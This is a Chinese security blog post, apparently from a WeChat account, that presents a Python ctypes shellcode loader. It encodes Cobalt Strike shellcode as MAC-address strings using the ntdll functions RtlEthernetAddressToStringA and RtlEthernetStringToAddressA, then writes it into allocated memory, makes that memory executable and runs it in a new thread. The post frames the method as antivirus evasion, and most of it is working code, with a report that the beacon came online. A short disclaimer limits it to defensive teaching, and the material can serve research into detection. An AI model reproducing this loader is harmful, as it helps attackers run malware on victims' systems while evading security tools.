 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qSs4avStVOIUaAF6Krb-wA)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSOia5j6Pszflu8PQsUtkvOgrV6VtMLpD9AQ5l8TzAMFQHY78lFUY0QnI4D7eRnGxtcLwqWFUoN1WaA/640?wx_fmt=jpeg)  

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

前言  

前几天不是研究过 uuid 加载器《[CS 免杀 - UUID 写入内存 (python)](http://mp.weixin.qq.com/s?__biz=MzIwOTMzMzY0Ng==&mid=2247484633&idx=1&sn=3b5ada28696949bccf7d5a60bda8ecff&chksm=97743838a003b12e6fefcd90dd4764e13a9e3d1c10473810a6ba13804ba884cf7f5fb588bb81&scene=21#wechat_redirect)》吗，觉得这种加载方式很有意思，通过 api 函数将 uuid 转为二进制写入内存。  

今就突发奇想有没有别的 api 函数有异曲同工之处，我就搁开发手册搜啊，搜 to a binary 搜了半天

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOia5j6Pszflu8PQsUtkvOgrQngoDJWVWhIG1Hd3aGzlUoGOTicZXBbb1JueNcoym5qVibFGjeqAsiaCw/640?wx_fmt=png)

嘿还真找着了俩函数

RtlEthernetStringToAddressA 和 RtlEthernetAddressToStringA

发现是操作 **MAC 地址**的，可以将 mac 字符串转换成二进制写入内存，所以就有了本文

MAC 是啥

MAC 地址也叫物理地址、硬件地址，由网络设备制造商生产时烧录在网卡的 EPROM 一种闪存芯片，通常可以通过程序擦写。IP 地址与 MAC 地址在计算机里都是以二进制表示的，IP 地址是 32 位的，而 MAC 地址则是 48 位（6 个字节）的 。  

转换 MAC

RtlEthernetAddressToStringA  

该函数是 ntdll.dll 库的函数，可以把 mac 地址二进制格式转换为字符串表示

```
\xFC\x48\x83\xE4\xF0\xE8 ====> FC-48-83-E4-F0-E8
```

```
https://docs.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlethernetaddresstostringa
```

函数原型：  

```
NTSYSAPI PSTR RtlEthernetAddressToStringA(
  const DL_EUI48 *Addr,
  PSTR           S
);
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOia5j6Pszflu8PQsUtkvOgrLjFrx54ERFkPNBAmXWVSj1FlgBLfwv8Hic90JmEnlMFXgGicrs8VGEOA/640?wx_fmt=png)

使用此函数可以将二进制转换为 mac 格式  

注意 6 个字节转换一个 mac 值，\x00 是一个字节

当剩余字节数不满 6 个可添加 \ x00 补充字节数，必须将全部的 shellcode 全部转化为 mac 值

在转换之前，需要一块内存用来接收 mac 值

由于我们转换成 mac 后，6 个字节变成了 17 个字节，所以需内存大小自己算一下

```
shellcode = b'\xfc\x48\x83\xe4...'
macmem = ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode)/6*17,0x3000,0x40)
```

然后每隔六个字节进行一次转换，此时内存地址递增 17  

```
for i in range(len(shellcode)/6):
     bytes_a = shellcode[i*6:6+i*6]
     ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)
```

这时可以看看内存中的值，是否是 mac 字符串形式  

```
a = ctypes.string_at(macmem,len(shellcode)*3-1)
print(a)
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOia5j6Pszflu8PQsUtkvOgre5ZkMNrJRHaGiccsVWGv7c4UibT9iamr57fFwu7ttqnRf4YnH7OPTCzbg/640?wx_fmt=png)

转换成 mac 字符串后，可以进一步转换成列表，或者复制下来放在服务器远程加载  

```
list = []
for i in range(len(shellcode)/6):
    d = ctypes.string_at(macmem+i*17,17)
    list.append(d)
print(list)
```

MAC 写入内存

下面已经将 shellcode 转为了 MAC，并放在列表中  

```
import ctypes

list = ['FC-48-83-E4-F0-E8', 'C8-00-00-00-41-51', '41-50-52-51-56-48', '31-D2-65-48-8B-52', '60-48-8B-52-18-48'......]
```

RtlEthernetStringToAddressA

该函数是 ntdll.dll 库的函数，将 MAC 值从字符串形式转为二进制格式

```
FC-48-83-E4-F0-E8 ====> \xFC\x48\x83\xE4\xF0\xE8
```

```
https://docs.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlethernetstringtoaddressa
```

函数原型  

```
NTSYSAPI NTSTATUS RtlEthernetStringToAddressA(
  PCSTR    S,
  PCSTR    *Terminator,
  DL_EUI48 *Addr
);
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOia5j6Pszflu8PQsUtkvOgrbTcKiaibBx2L6D7vMb2oWbp1ZA3QrOZJDV8Wwat0NG9etibiaa2ibNN5oEw/640?wx_fmt=png)

一二参数传入 mac 值，第三参数传入接收的内存指针  

```
ctypes.windll.Ntdll.RtlEthernetStringToAddressA(mac,mac, ptr)
```

申请内存，注意申请内存的大小 len(list)*6 有多少 mac 值，它的 6 倍就是需要的内存大小  

```
ptr = ctypes.windll.kernel32.VirtualAlloc(0,len(list)*6,0x3000,0x04)
```

通过 RtlEthernetStringToAddressA 函数，将 mac 值转为二进制写入内存  

rwxpage 是内存指针，表示从该指针位置写入

rwxpage+=6 是控制指针的位置，每写入一个 mac 二进制需要将指针移动 6 个字节

```
rwxpage = ptr
for i in range(len(list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(list[i], list[i], rwxpage)
    rwxpage += 6
```

然后创建线程运行即可  

```
ctypes.windll.kernel32.VirtualProtect(ptr, len(list)*6, 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```

测试

使用 py2.7 环境，CS 生成的 64 位 shellcode  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOia5j6Pszflu8PQsUtkvOgrHfEkTPRH4sn8wHibVVTtba6F0tiaDWLlhickGXt1c2eSXGQjSoo3WyIXA/640?wx_fmt=png)

成功上线，免杀没有测试，主要是研究姿势  

公众号

源码公众号回复：**mac 加载器**